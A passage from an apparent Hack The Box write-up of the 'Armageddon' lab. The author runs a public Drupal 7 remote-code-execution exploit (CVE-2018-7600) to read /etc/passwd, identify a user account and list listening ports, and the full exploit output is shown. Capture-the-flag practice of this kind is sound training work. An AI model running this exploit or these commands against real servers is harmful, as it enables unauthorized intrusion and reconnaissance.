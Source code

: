 `cat /etc/passwd` to enumerate user. I found that the user was `brucetherealadmin`:

```sh
[tyco㉿4YE: ~/htb/armageddon/CVE-2018-7600]$ python3 drupa7-CVE-2018-7600.py http://10.10.10.233 -c "cat /etc/passwd"  

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-4jt4KLiVoZURl5svnu6VqwkZPHu1vYrkYccP2FFbZSE
[*] Triggering exploit to execute: cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```

`ss -peanut` to see running ports on the system:

```sh
[tyco㉿4YE: ~/htb/armageddon/CVE-2018-7600]$ python3 drupa7-CVE-2018-7600.py http://10.10.10.233 -c "ss -peanut"                                                                    

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-KNaN-SgE3YhyBFWaqr_7GLAq17ALoRScossv-8a5EaU
[*] Triggering exploit to execute: ss -peanut
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port    Process          
tcp    LISTEN     0      0      *:22                    		 *:*                  ino:18771 sk:0
tcp    LISTEN     0      0      127.0.0.1:25                     *:*                  ino:20522 sk:0
tcp    LISTEN     0      0      127.0.0.1:3306                   *:*                  uid:27 ino:20726 sk:0
tcp    ESTAB      0      0      10.10.10.233:22                  10.10.14.10:56530    timer:(keepalive,73min,0) ino:61650 sk:0
tcp    LISTEN     0      0      [::]:22                 		 [::]:*               ino:18774 sk:0
tcp    LISTEN     0      0      [::1]:25                		 [::]:*               ino:20523 sk:0
```